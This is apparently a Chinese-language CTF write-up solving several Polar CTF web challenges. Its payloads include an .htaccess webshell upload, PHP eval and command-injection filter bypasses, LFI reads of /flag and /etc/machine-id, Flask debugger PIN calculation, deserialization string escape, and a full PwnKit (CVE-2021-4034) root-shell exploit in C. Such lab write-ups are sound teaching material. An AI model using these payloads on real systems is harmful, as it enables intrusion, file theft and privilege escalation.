



[Polar ctf WEB] 困难区 wp 1
===

## [Polar WEB] 上传

### 题解

首先尝试 `shell.php` 无论如何不能成功, 考虑 `jpg` + `.htaccess` 的组合:

首先 `shell.jpg` 可以传, 之后 `.htaccess`:


把 file 换成 url 编码:


成功, 可惜似乎不能解析; 例外图片不能有 `<?`, 因此试试传 base64 的图片码, 用 `.htaccess` 来解码:

> 反斜杠绕过试试:

```.htaccess
#define width 1337
#define height 1337
php_value auto_prepend_fi\
le "php://filter/convert.base64-decode/resource=./shell.jpg"
AddType application/x-httpd-php .jpg
```


成功;


这题的关键就在于利用反斜杠去 bypass;

## [WEB] PHP是世界上最好的语言

### 题解

开门审计:

```php
 <?php
//flag in $flag
highlight_file(__FILE__);
include("flag.php");
$c=$_POST['sys'];
$key1 = 0;
$key2 = 0;
// 这里不准传 flag1 和 flag2
if(isset($_GET['flag1']) || isset($_GET['flag2']) || isset($_POST['flag1']) || isset($_POST['flag2'])) {
    die("nonononono");
}

// parse_str 将传参解析成变量(局部), 根据等号转换, 只解析 ? 后面的部分
@parse_str($_SERVER['QUERY_STRING']);

// extract 函数将数组按照键值对的方式解析为变量组, 这里将 POST 超全局数组进行转换, 注意, extract 只覆盖, 不创建
extract($_POST);
if($flag1 == '8gen1' && $flag2 == '8gen1') {
    if(isset($_POST['504_SYS.COM'])){
    if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\%|\^|\*|\-|\+|\=|\{|\}|\"|\'|\,|\.|\?/", $c)){
         eval("$c");  

    }
}
}
?> 
```

经过分析, 这里显然是需要 GET 传参来覆盖超全局数组 `$_POST`, 所以应该需要:

```
(GET)
/?_POST[flag1]=8gen1&_POST[flag2]=8gen1
```

此外, 在进行**变量名解析**时, php 会将 `[`, `]`, `_`, ` `都解析为 `_`, 并且当**PHP 版本在 7.4 以下**, php 只会解析并处理其中的**第一个非法字符** (也就是上面的这些), 所以这里 POST 中传入:

```
(POST)
sys=system(ls);&504[SYS.COM=1
```

验证 RCE 成功:


根据提示 `//flag in $flag`:


### 总结

这题主要考察的是 `parse_str()` + `extract()` 这两个函数的用法, 以及 php 对变量名的解析处理规则;

## [WEB] 非常好绕的命令执行

### 题解

开门源码:

```php
 <?php 
# -*- coding: utf-8 -*-
# @Author: ShawRoot
# @Date:  2022-07-21 08:42:23
# @link: https://shawroot.cc

highlight_file(__FILE__);
$args1 = $_GET['args1'];
$args2 = $_GET['args2'];
$args3 = $_GET['args3'];
$evil = $args1.'('.$args2.')('.$args3.')'.';';
$blacklist = '/system|ass|exe|nc|eval|copy|write|\.|\>|\_|\^|\~|%|\$|\[|\]|\{|\}|\&|\-/i';
// 禁止黑名单字符, 禁止空格
if (!preg_match($blacklist,$evil) and !ctype_space($evil) and ctype_graph($evil))
{
    echo "<br>".$evil."<br>";
    eval($evil);
}

?> 
```

#### 解法1: 反引号 + 注释

注意到反引号 `` ` `` 没有被绕过, 尝试:

```
?args1=echo&args2=1);//&args3=1
```

回显:


说明成功了, 现在尝试 ``echo(`ls`) ``:


接下来绕过空格, 用 `<` 即可:

```
/?args1=echo&args2=`cat<flagggg`);//&args3=1
```


#### 解法2: 可变函数调用

`eval()` 函数支持变量名拼接, 例如:

```php
// 方法1：直接在eval中使用字符串拼接
eval(func1().'($a);');

// 方法2：使用可变函数 (变量名动态拼接)
$funcName = func1();
$funcName($a);
```

如果 `func1()` 的返回结果为 (string) func2, 那么等效于执行

```php
eval('func2($a)');
```

简单的测试办法:

```php
<?php

$a = "system";
echo $a. "\n";
@eval ($a . '(whoami);');

$b = bin2hex($a);
echo $b . "\n";
@eval (hex2bin($b) . '(whoami);');

?>
```

因此这里的 payload 也可以这么构造:

```
/?args1=hex2bin&args2='73797374656d'&args3=whoami
```

> 注意这里要加上引号, 否则 php 会把其解析为一个非常大的数字而不是 16 进制的字符串;


执行成功, 接下来把 args3 内容改为 `'cat<flagggg'` 即可, 注意依然要带上引号, 否则 `<` 会影响解析


## [WEB] 这又是一个上传

### 上传 webshell

首先尝试 `shell.jpg` 成功, 说明对 `<?` 等内容没有过滤; 接下来尝试传 `.htaccess`, 发现不允许, 不过是用 `alert` 弹窗的方式, 这说明应该是前端的过滤, 打开源码:


前端 js 的过滤直接在浏览器上禁用 js 就行;




连上 webshell 后, 发现权限不够, 读不出 `/flag` 的内容;

试试执行 php 代码:


在 phpinfo 内容里找到了 flag; 不过提交显示错误, 看来是个假 flag; 那么需要找一下提权的途径:

### linux 提权

 先枚举一下特权文件:


这个版本的 pkexec 存在提权漏洞: (CVE-2021-4034)

> 原理: [CVE-2021-4034 pkexec 本地提权漏洞利用解析](https://www.anquanke.com/post/id/267774#h2-0)

exp:

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

char *shell =
        "#include <stdio.h>\n"
        "#include <stdlib.h>\n"
        "#include <unistd.h>\n\n"
        "void gconv() {}\n"
        "void gconv_init() {\n"
        "       setuid(0); setgid(0);\n"
        "       seteuid(0); setegid(0);\n"
        "       system(\"export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin; /bin/sh\");\n"
        "       exit(0);\n"
        "}";

int main(int argc, char *argv[]) {
        FILE *fp;
        system("mkdir -p 'GCONV_PATH=.'; touch 'GCONV_PATH=./pwnkit'; chmod a+x 'GCONV_PATH=./pwnkit'");
        system("mkdir -p pwnkit; echo 'module UTF-8// PWNKIT// pwnkit 1' > pwnkit/gconv-modules");
        fp = fopen("pwnkit/pwnkit.c", "w");
        fprintf(fp, "%s", shell);
        fclose(fp);
        system("gcc pwnkit/pwnkit.c -o pwnkit/pwnkit.so -shared -fPIC");
        char *env[] = { "pwnkit", "PATH=GCONV_PATH=.", "CHARSET=PWNKIT", "SHELL=pwnkit", NULL };
        execve("./pkexec_105", (char*[]){NULL}, env);
}
```

用蚁剑把马传到 `/tmp` 然后提权即可, 不过我这里遇到一点问题, 用公网服务器也收不到反弹 shell, 怀疑是靶机设置了不出网?

## [WEB] 网站被黑

### 题解

打开网站, 没啥头绪, 先爆一下目录:



这个 `flag.php` 里没东西, 还是没啥结果, 看一下抓包结果:


这一串 Hint 是 base32 编码, 解码后是 `/n0_0ne_f1nd_m3/`, 访问:

```php
 <?php
error_reporting(0);

$text = $_GET["text"];
$file = $_GET["file"];
if(isset($text)&&(file_get_contents($text,'r')==="welcome to the 504sys")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag|data|base|write|input/i",$file)){
        echo "I am sorry but no way!";
        exit(); 
    }else{
        include($file);  //imposible.php
    }
}
else{
    highlight_file(__FILE__);
}
?> 
```

首先要绕 `file_get_content` + `GET`, 这里用 `php://input`: `php://input` 是一个 PHP 流包装器，它**读取 POST 请求的原始数据作为"文件内容"**。

之后用 `php://filter` 伪协议读 `imposible.php`, 这里 base 被 ban 了, 用 rot13:


## [WEB] flask_pin

### flask_pin

#### 什么是 flask_pin

在开发环境中启动 flask 服务时 (调试模式), flask 会启动一个交互式 Debugger, 输入正确的 flask_pin 就可以启用, 相当于一个 **Python shell**, 显然是一处 RCE;

默认路由:

```
/console
/?__debugger__=yes&cmd=resource&f=style.css
```

#### 如何计算 flask_pin

Flask 的 PIN 码计算仅与 werkzeug 的 debug 模块有关: **低版本用 MD5, 高版本用 SHA1**(一般是 Python 3.8+);

PIN 六大生成要素:

- username, 用户名;
- modname, 默认为 flask.app;
- appname, 默认为 Flask;
- moddir, flask 库下 app.py 的绝对路径;
- uuidnode, 网络地址 mac 的十进制数;
- machine_id, 机器 id, docker 也会读;

### 信息泄露

访问网站, 直接报错了:


源码里有泄露:


不过这是 debugger 的一次性 token, 暂时没用;

根据报错的泄露信息, 已知 Python 版本为 3.5, 也就是 MD5, 应用路径: `/app/app.py` + `/usr/local/lib/python3.5/site-packages/flask/app.py` 并且报错中有这段源码:

```python
@app.route("/file")

def file():

    filename = request.args.get('filename')

```

非常有可能存在 LFI, 尝试后发现果然有: 


再拿 uuidnode, 地址在 `/sys/class/net/eth0/address`:

```
/file?filename=/sys/class/net/eth0/address
```

结果是 `02:42:ac:02:75:17` → `2485376917500`;

再拿机器码, 地址在 `/etc/machine-id` 和 `/proc/self/cgroup`, 结果拼起来:

```
/file?filename=/etc/machine-id
/file?filename=/proc/self/cgroup
```



结果是 `c31eea55a29431535ff01de94bdcf5cf`; `d9105f21664ec740af2be4fa13d45a34f3ff2162f2ac663a7f16d93307d91157`

### 计算 flask_pin 

到这里要素已经全了, 可以直接算 PIN:

```python
# MD5
# 对高版本 Flask, 将 MD5 换为 SHA1 即可;
import hashlib
from itertools import chain
probably_public_bits = [
     'root'# username
     'flask.app',# modname
     'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
     '/usr/local/lib/python3.5/site-packages/flask/app.py' # getattr(mod, '__file__', None),
]

private_bits = [
     '2485376917500',# str(uuid.getnode()),  /sys/class/net/eth0(网卡名字)/address
     'c31eea55a29431535ff01de94bdcf5cf'# get_machine_id(), /etc/machine-id, 如果是容器环境, 还可能会贴上 /proc/self/cgroup
]

h = hashlib.md5()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
   h.update(b'pinsalt')
   num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv =None
if rv is None:
   for group_size in 5, 4, 3:
       if len(num) % group_size == 0:
          rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                      for x in range(0, len(num), group_size))
          break
       else:
          rv = num

print(rv)
```


## [WEB] veryphp

### 题解

开门源码:

```php
 <?php
error_reporting(0);
highlight_file(__FILE__);
include("config.php");
class qwq
{
    function __wakeup(){
        die("Access Denied!");
    }
    static function oao(){
        show_source("config.php");
    }
}
$str = file_get_contents("php://input");
if(preg_match('/\`|\_|\.|%|\*|\~|\^|\'|\"|\;|\(|\)|\]|g|e|l|i|\//is',$str)){
    die("I am sorry but you have to leave.");
}else{
    extract($_POST);
}
if(isset($shaw_root)){
    if(preg_match('/^\-[a-e][^a-zA-Z0-8]<b>(.*)>{4}\D*?(abc.*?)p(hp)*\@R(s|r).$/', $shaw_root)&& strlen($shaw_root)===29){
        echo $hint;
    }else{
        echo "Almost there."."<br>";
    }
}else{
    echo "<br>"."Input correct parameters"."<br>";
    die();
}
if($ans===$SecretNumber){
    echo "<br>"."Congratulations!"."<br>";
    call_user_func($my_ans);
} 
```

#### 编码绕过正则表达式

首先拿到这个 hint, 先构造出一个能绕过这第二层一大串复杂正则的字符串: `-a9<b>NOPQRSTUVWX>>>>abcp@RsZ`;

之后再审计一下之前的逻辑, 需要 POST 方法体中传入一个变量 `$shaw_root`= `-a9<b>NOPQRSTUVWX>>>>abcp@RsZ`, 但是 `_` 会被 WAF, 考虑用 php 对变量名的规范化处理来绕过:

> PHP 会再处理传入参数时, 自动将其中的 ` `, `.`, `[]` 替换为 `_`;

` ` 对应 `%20`, 这里 `%` 被过滤了, 在请求体中 `+` 也可以表示空格, 因此 payload:

```
POST
shaw+root=-a9<b>NOPQRSTUVWX>>>>abcp@RsZ
```


```php
md5("shaw".($SecretNumber)."root")==166b47a5cb1ca2431a0edfcef200684f && strlen($SecretNumber)===5
```

#### 爆破密码

写一个简单的脚本爆一下:

```python
#import itertools
from hashlib import md5


for secret_number in range(100000):
    
    payload = "shaw" + str(secret_number) + "root"
    if md5(payload.encode()).hexdigest() == "166b47a5cb1ca2431a0edfcef200684f":
        print("[+] Found the secret number:", secret_number)
        break
    
    if secret_number % 10000 == 0:
        print(f"[*] Tried up to {secret_number}...")
```


#### 绕过 `__wakeup()`

虽然这里没用到, 但是总结了一下绕 wakeup 的姿势:

1. 变量引用: 两个变量同时指向同一个内存地址:

    假设 `class test` 有 `$a`, `$b`, `$c`三个属性, 那么 `$this->b=$this->c;` 就是一个可可用的 bypass;

2. 属性个数不匹配 (cve-2016-7124)

> PHP5 < 5.6.25 或 PHP7 < 7.0.10

    简单来说, ``O:4:"test":1:{s:4:"flag";s:3:"111";}`` 改成``O:4:"test":2:{s:4:"flag";s:3:"111";}`` 即可;

3. 对象 `O` 改为 `C`

    将序列化的对象改为序列化的未定义的方法, 这样就不会调用 `__wakeup()`;

4. GC 回收机制 (fast-destruct)
   
> [GC 回收机制例子](https://blog.csdn.net/Myon5/article/details/134018456)

#### 构造 payload

```
shaw+root=-a9<b>NOPQRSTUVWX>>>>abcp@RsZ&ans=21475&my+ans=qwq::oao
```


## [WEB] 毒鸡汤

### 题解

打开是个小博客, 逛了两圈没什么突破口, 爆破一下:


`hint.txt` 指示 flag 就在根目录, 并且还扫到了源码备份, 直接下载:

找到之后审计到一段 LFI:

```php
<?php 
$filename = $_GET['readfile'];
if ($filename){
	include($filename); 
}
?>
```

试试伪协议读取, 成功:


修改 payload:

```
/index.php?readfile=php://filter/convert.base64-encode/resource=/flag
```


总体比较简单;

## [WEB] upload tutu

### 题解

随便传两个文件, 可以发现这个网站是有两个上传点, 上传后服务器会用 md5 哈希的方式比较两个文件是否一致; 那么传:

`s878926199a` + `s155964671a`


直接爆出了 flag;

## [WEB] Unserialize_Escape

### 题解

开门审计:

```php
 <?php
highlight_file(__FILE__);
function filter($string){
    return preg_replace('/x/', 'yy', $string);
}

$username = $_POST['username'];

$password = "aaaaa";
$user = array($username, $password);

$r = filter(serialize($user));
if(unserialize($r)[1] == "123456"){
    echo file_get_contents('flag.php');
} 
```

这里考虑用字符串逃逸, 序列化字符串的结构都是类似: `a:2:{i:0;s:5:"bbbbb";i:1;s:5:"aaaaa";}`;

> 可以看到成员的属性都是, `s:变量名长:变量名;变量类型:变量长度:变量内容;`, 或者 `i:索引;变量类型:变量长度:变量内容;`

那只要在传入 username 的时候, 让 username 的内容正好在替换后是序列化后的字符串后面部分, 那么这里字符串就会自然闭合, 在之后的内容会被忽略;

```php
<?php
function filter($string){
    return preg_replace('/x/', 'yy', $string);
}

$username = "\";i:1;s:6:\"123456\";}";

$password = "aaaaa";

for ($i=0; $i<=50; $i++){
    $username = "x".$username;
    $r = filter(serialize($user));
    
    $user = array($username, $password);
    echo serialize($user);
    echo "\n";
    if(unserialize($r)[1] == "123456"){
        echo "Found! The number of x is".$i."\n";
        break;
    }
}

if(unserialize($r)[1] == "123456"){
    echo "OK";
}
?>
```


拼起来就是 payload:

```
username=xxxxxxxxxxxxxxxxxxxx";i:1;s:6:"123456";}
```

